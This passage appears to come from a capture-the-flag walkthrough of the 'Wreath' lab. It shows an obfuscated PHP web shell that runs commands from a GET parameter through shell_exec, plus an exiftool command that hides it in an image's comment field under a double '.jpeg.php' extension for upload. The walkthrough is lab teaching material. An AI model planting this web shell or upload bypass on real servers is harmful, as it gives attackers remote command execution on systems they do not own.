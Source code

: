 You can use this online tool for PHP [Obfuscation](https://www.gaijin.at/en/tools/php-obfuscator).

after Obfuscation after payload look like this.

```
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

and use this command to embed the payload to image.

```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-Munaz.jpeg.php
```

![](/Images/wreath/Screenshot-2021-04-07-182120-1024x294.png)

**Upload the payload**

![](/Images/wreath/Screenshot-2021-04-07-182033-1024x576.png)
